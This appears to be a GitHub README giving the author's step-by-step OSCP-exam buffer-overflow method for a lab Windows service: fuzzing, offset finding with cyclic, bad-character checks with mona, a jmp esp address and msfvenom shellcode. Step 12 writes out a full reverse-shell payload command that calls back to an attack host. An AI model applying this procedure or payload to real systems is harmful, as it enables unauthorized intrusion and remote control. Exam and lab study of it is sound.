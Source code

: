 After passing OSCP, various people have asked about my process for the buffer overflow.  Well, here it is.  A few things to note:

1. You should take the time to come up with your own methodology that makes sense to you.
2. My method/scripts uses python3 and pwntools.
3. I am not a professional python programmer, there is likely better ways to do it.
4. The usual disclaimers about doing things at your own risk apply.

-------

#### 1. Start Immunity/app as administrator

#### 2. Confirm connectivity from attack host
```
nc xxx.xxx.xxx.xxx <port>
```

#### 3. Fuzz for crash (See fuzzer template)
```
[root@kali:/r/bof]# python3 fuzzer.py
```

#### 4. Generate cyclic pattern to find exact crash
```
[root@kali:/r/bof]# cyclic 300
aaaabaaacaaadaaaeaa [ .. snip .. ] afaaagaaahaaaiaaa
```

#### 5. Add pattern to "overflow" in exploit.py and repro crash

#### 6. Get offset from address in EIP and set "offset"
Get address in EIP and find number of bytes to EIP:
```
[root@kali:/r/bof]# cyclic -l 0x61616275
2003
```

#### 7. Remove cyclic pattern from "overflow" and replace with "A" * offset
```
offset = 2003 # EIP @ 0x61616275
overflow = b"A" * offset
eip = b"BBBB" # 
```

#### 8. Replicate crash and confirm "B" in EIP

#### 9. Find Bad Characters with mona
- Set working dir:
`!mona config -set workingfolder C:\Windows\Temp`
- Create bytearray (without bad chars we know about)
`!mona bytearray --cpb "\x00"` 
- Include list chars in payload (without \x00)
```
badchars = [0x00] # start with null
```
- Repro crash with charpayload
- After the crash use mona to find the next bad char:
`!mona compare -f C:\Windows\Temp\bytearray.bin -a esp`
- Note new bad char, add it to "badchars"
- Repeat steps until no new bad chars are reported

#### 10. Find Jump Point using bad chars (running or crashed) - will be in "Log Data" window
```
!mona jmp -r esp -cpb "\x00\x23\x3c\x83\xba"
```

#### 11. Put jmp address in "eip" var backwards (little endian)
```
eip = b"\xfa\x11\x50\x62" # 625011AF
```

#### 12. Generate shellcode without bad chars and add as "sc" var
```
[root@kali:/r/bof]# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.10.230 LPORT=6666 EXITFUNC=thread -b "\x00\x23\x3c\x83\xba" -f python -v sc
```

#### 13. Add shellcode

#### 14. Add NOPs as needed and comment out "charpayload"
```
padding = b"\x90" * 16
```
#### 15. Get shell 
